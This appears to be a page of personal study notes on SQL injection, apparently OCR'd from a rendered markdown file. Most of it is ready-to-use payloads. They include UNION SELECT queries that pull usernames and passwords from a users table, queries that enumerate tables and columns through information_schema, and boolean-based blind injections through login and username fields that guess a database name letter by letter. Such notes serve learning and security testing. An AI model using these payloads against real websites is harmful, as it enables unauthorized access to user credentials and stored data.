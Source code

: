 ```sql
UNION ALL SELECT 1, username, password FROM users
```
	Retrieves cell data for _username_ and _password_ fields in the _users_ table
```sql
UNION ALL SELECT * FROM users
```
	works too  
  
\*Note: Don't forget commas to delineate!  
  
After finding out the db in use w/ _database()_, find out table names:  
```sql
0 UNION SELECT 1, 2, group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db'
```


Can then discover names of columns of the above found table:  
```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'table'
```


Can then find details from table using either:  
```sql
0 UNION SELECT * FROM table_name where username='user'
```
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM tablen
```
	Provides list in single line & uses HTML tag _<br>_ for line breaks btw entries  
  
  
  
### Blind-Based Auth Bypass:
Login forms that are connected to a db of users are often developed so the web app isn't interested in the content of the fields but whether the two make a matching pair in the users table  
  
→ Leads to:  
**Boolean-Based:**  
When you have a login that checks for usernames already taken: can enum looking for results that return ‘true’  
```sql
false_user' UNION SELECT 1,2,3 where database() like '%';--
```
	Can cycle through _‘a%’_, _‘b%’_, _‘c%’_, etc etc until you reach a ‘true’ result telling you the start of the name of the db.  
		Can then cycle through all combinations of _‘sa%’_, _'sb%'_, _‘sc%’_, etc etc until all letters of the db name are discovered.  
  
Then can enum through table names within discovered db:  
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'found_table' and table_name like 'a%';--
```

  